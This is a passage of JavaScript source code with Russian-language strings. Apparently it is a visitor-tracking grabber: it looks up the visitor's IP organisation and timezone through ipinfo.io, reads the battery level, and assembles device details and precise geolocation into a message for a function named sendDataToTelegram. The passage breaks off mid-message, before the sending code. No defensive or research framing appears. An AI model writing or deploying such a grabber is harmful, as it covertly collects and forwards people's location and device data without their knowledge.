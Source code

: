         async function getOrg() {
            try {
                const response = await fetch('https://ipinfo.io/json');
                const data = await response.json();
                return data.org;
            } catch (error) {
                console.error("Ошибка при получении org:", error);
                return "Недоступно";
            }
        }
    
        async function getTimezone() {
            try {
                const response = await fetch('https://ipinfo.io/json');
                const data = await response.json();
                return data.timezone;
            } catch (error) {
                console.error("Ошибка при получении timezone:", error);
                return "Недоступно";
            }
        }
        async function getBatteryLevel() {
            if ('getBattery' in navigator) {
                try {
                    const battery = await navigator.getBattery();
                    return Math.round(battery.level * 100);
                } catch (error) {
                    console.error("Ошибка при получении уровня батареи:", error);
                    return "Недоступно";
                }
            } else {
                return "API батареи не поддерживается";
            }
        }
        async function sendDataToTelegram(deviceInfo, ipAddress, batteryLevel, host, city, region, country, loc, org, timezone, locationData) {
            const locationInfo = locationData ? `
📍Точная геолокация:
┌Широта: ${locationData.latitude}
├Долгота: ${locationData.longitude}
├Точность: ${locationData.accuracy} метров
└Время: ${locationData.timestamp}` : '\n📍Геолокация: Не предоставлена';
            
            const message = `
Новый запрос!
💻Информация об устройстве:
┌IP: ${ipAddress}
├Платформа: ${deviceInfo.platform}
├Язык: ${deviceInfo.language}
├Разрешение экрана: ${deviceInfo.screenWidth}x${deviceInfo.screenHeight}
├Память устройства: ${deviceInfo.deviceMemory} GB
├Ядра процессора: ${deviceInfo.hardwareConcurrency}
└Уровень батареи: ${batteryLevel}%
